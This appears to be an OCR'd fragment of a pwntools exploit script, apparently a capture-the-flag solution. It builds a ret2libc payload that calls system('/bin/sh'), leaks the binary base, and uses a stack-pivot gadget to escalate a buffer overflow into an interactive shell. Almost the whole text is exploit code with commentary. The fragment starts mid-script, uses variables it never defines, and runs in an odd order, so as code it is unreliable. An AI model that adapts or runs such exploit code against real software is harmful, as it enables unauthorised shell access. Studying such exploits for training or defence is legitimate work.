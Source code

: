 ```
payload += p32(libc.symbols['system'])
payload += p32(0xdeadbeef)
payload += p32(next(libc.search(b'/bin/sh')))
p.sendline(payload)

# take the binary's main function address leak
# this is only used to get the binary base to use
# puts(puts) to work out the libc version
p.recvuntil("At: ")
main_leak = int(p.recvline().rstrip(), 16)
elf.address = main_leak - elf.symbols['main']

'''
in vuln we have:
push    0x38 {var_34}
lea     eax, [ebp-0x1c {var_20}]
push    eax {var_20} {var_38}
push    0x0 {var_3c}
call    read

so there's a clear buffer overflow, but won't be enough for a
full rop chain so we'll need to do a stack pivot, to our bigger buffer

in main we had:
ebp = esp+0x328

buffer was at ebp-0xa0 = esp+0x288

closest gadget:
remote:
0x0007540d: ret 0x28b;

local:
0x000af05b: ret 0x28b;

lose 0x3 bytes, since esp+0x28b = (esp+0x288)+3

'''

pivot_payload = flat({0x20 : p32(libc.address + pivot_gadget),
					  0x24 : p32(libc.address + ret_gadget)})

'''pivot_payload = flat({0x18 : p32(elf.symbols['_GLOBAL_OFFSET_TABLE_']),
					  0x20 : p32(elf.symbols['puts']),
					  0x24 : p32(0xdeadbeef),
					  0x28 : p32(elf.got['puts'])})'''

p.sendline(pivot_payload)

p.interactive()
```